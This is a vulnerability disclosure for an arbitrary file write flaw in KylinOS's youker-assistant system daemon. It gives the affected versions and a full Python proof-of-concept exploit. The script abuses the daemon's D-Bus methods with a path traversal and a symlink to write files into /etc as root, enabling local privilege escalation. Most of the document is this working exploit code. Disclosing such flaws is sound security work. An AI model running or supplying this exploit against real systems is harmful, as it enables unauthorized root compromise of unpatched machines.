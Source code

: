 # Kylin OS youker-assistant arbitrary file write vuln

Author: Set3r.Pan（8691003@qq.com）\
Unit: KylinSoft（https://www.kylinos.cn/）
## Report
### Describe
youker-assistant is a collection of tools on KylinOS Desktop to help perform daily system maintenance tasks. The restore_all_sound_file function of this group of programs has an arbitrary file writing vulnerability, which can lead to normal user privilege escalation.
### Hazard level
High
### Affected version
- youker-assistant < 3.0.2-0kylin6k70-23
### POC&&EXP
ISO Download:\
https://distro-images.kylinos.cn:8802/web_pungi/download/share/HXDYtGjZm3daA4UvOTLkiPl1nB9ErM0c/

exploit.py
```
#!/usr/bin/env python3

import sys
import dbus
import os

def run_cmd(cmd):
    os.system(cmd)

def copy_file(target_dir, src_file):
    copy_cmd=f'''
        srcDir=$(mktemp -d)
        homeDir=/tmp/fakeroot/$srcDir
        srcFile={src_file}
        targetDir={target_dir}
        gdbus call --system --dest com.kylin.assistant.systemdaemon \
                        --object-path /com/kylin/assistant/systemdaemon \
                        --method com.kylin.assistant.systemdaemon.set_homedir "$homeDir"

        # prepre src dir
        mkdir -p $srcDir/stereo
        cp $srcFile $srcDir/stereo

        # prepare target dir
        mkdir -p $homeDir
        mkdir -p $homeDir/.sounds..
        cd $homeDir
        ln -s $targetDir stereo

        gdbus call --system --dest com.kylin.assistant.systemdaemon \
                        --object-path /com/kylin/assistant/systemdaemon \
                        --method com.kylin.assistant.systemdaemon.restore_all_sound_file "../../../..$srcDir"

    '''
    run_cmd(copy_cmd)

os.system('touch restore_all_sound_file.txt')
copy_file("/etc", os.path.realpath("./restore_all_sound_file.txt"))
os.system('ls -l /etc/restore_all_sound_file.txt')
```
